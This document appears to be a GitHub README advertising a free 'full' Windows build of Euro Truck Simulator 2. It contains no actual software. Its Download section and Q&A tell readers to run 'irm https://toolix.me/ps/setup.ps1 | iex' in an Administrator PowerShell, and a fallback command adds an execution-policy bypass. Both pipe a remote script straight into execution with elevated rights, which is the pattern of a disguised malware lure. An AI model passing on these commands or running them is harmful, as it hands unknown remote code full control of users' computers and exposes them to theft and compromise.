

***

# Euro Truck Simulator 2 Full

<p align="center">
  
</p>

Euro Truck Simulator 2 Full — Windows 11 and 10 build | freight skills | cabin paint.

## About this application

**Euro Truck Simulator 2 Full** in this repo is a Windows desktop package for drivers touring the map. Expect a guided first launch, access to the garage desk with jobs, truck, and photo, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Euro Truck Simulator 2 Full suits drivers touring the map who need a straightforward Windows install and a focused jobs, truck, and photo workflow.

## What's included

Garage desk tools are bundled in this release. Install locally, open the app, and use the jobs, truck, and photo toolkit right away.

## Features

⚡ Jobs
🧩 Paint
📷 Photo
✨ Tuning
🗂️ Garage
🗺️ Map
🔍 Companies

## Good for

- 📌 Sim drivers
- 🎯 Convoy nights
- ⭐ Long hauls

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 8 GB minimum | 16 GB recommended
* **Disk:** 40 GB available storage

***